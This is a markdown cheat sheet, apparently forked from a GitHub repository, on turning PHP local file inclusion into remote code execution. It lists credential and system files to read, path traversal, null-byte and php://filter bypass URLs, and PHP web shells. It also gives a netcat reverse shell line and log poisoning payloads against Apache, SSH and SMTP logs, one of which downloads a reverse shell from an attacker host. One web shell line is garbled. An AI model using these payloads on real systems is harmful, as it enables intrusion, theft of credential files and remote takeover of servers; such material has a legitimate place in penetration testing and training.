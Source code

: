 Fork from https://github.com/RoqueNight/LFI---RCE-Cheat-Sheet
### Interesting files
```
/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
```

### Vulnerable PHP Code (LFI)

```
<?php
$file = $_GET['file'];
 include('directory/' . $file)
?>
```
Example URL: http//10.10.10.10/index.php?file=../../../../../../../etc/passwd
    
```
<?php
if(isset($_GET['file']))
{
        $file=str_replace('../','',$_GET['file']);
        $file=str_replace('./','',$file);
        echo @file_get_contents('./'.$file);
}
?>
```
    
## Bypassing PHP via NULL Byte
http://example.com/index.php?page=../../../etc/passwd%00 // Only applies to PHP 5.3.4 and below
    
## Bypassing PHP via WRAPPERS
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
    
## PHP RCE
```
<?php system($_GET['c']); ?>
<?php system($_REQUEST['c']$); ?>

<?php
$os = shell_exec('id');
echo "<pre>$os</pre>";
?>

<?php
$os = shell_exec('nc 10.10.10.10 4444 -e /bin/bash');
?>
```

## Dangerous PHP Functions that can be abused for RCE
```
<?php
print_r(preg_grep("/^(system|exec|shell_exec|passthru|proc_open|popen|curl_exec|curl_multi_exec|parse_ini_file|show_source)$/", get_defined_functions(TRUE)["internal"]));
?>
```

## LFI to RCE via Apache Log File Poisoning (PHP)
```
Example URL: http//10.10.10.10/index.php?file=../../../../../../../var/log/apache2/access.log 

Payload: curl "http://192.168.8.108/" -H "User-Agent: <?php system(\$_GET['c']); ?>" 
Execute RCE: http//10.10.10.10/index.php?file=../../../../../../../var/log/apache2/access.log&c=id

OR
python -m SimpleHTTPServer 9000 
Payload: curl "http://<remote_ip>/" -H "User-Agent: <?php file_put_contents('shell.php',file_get_contents('http://<local_ip>:9000/shell-php-rev.php')) ?>" 
    file_put_contents('shell.php')                                // What it will be saved locally on the target
    file_get_contents('http://<local_ip>:9000/shell-php-rev.php') // Where is the shell on YOUR pc and WHAT is it called
Execute PHP Reverse Shell: http//10.10.10.10/shell.php
```

## LFI to RCE via SSH Log File Poisoning (PHP)
```
Example URL: http//10.10.10.10/index.php?file=../../../../../../../var/log/auth.log 

Payload: ssh <?php system($_GET['c']);?>@<target_ip>

Execute RCE: http//10.10.10.10/index.php?file=../../../../../../../var/log/auth.log&c=id
```
## LFI to RCE via process injection
```
http//10.10.10.10/index.php?file=../../../../../../../proc/sched_debug # schedule + PID
http//10.10.10.10/index.php?file=../../../../../../../proc/self/cmdline # current process
http//10.10.10.10/index.php?file=../../../../../../../proc/self/status # info
http//10.10.10.10/index.php?file=../../../../../../../proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
```


## LFI to RCE via SMTP Log File Poisoning (PHP)
Example URL: http//10.10.10.10/index.php?file=../../../../../../../var/log/mail.log 

telnet <target_ip> 25 // Replace with the target IP
MAIL FROM:<toor@gmail.com>
RCPT TO:<?php system($_GET['c']); ?>

Execute RCE: http//10.10.10.10/index.php?file=../../../../../../../var/log/mail.log&c=id
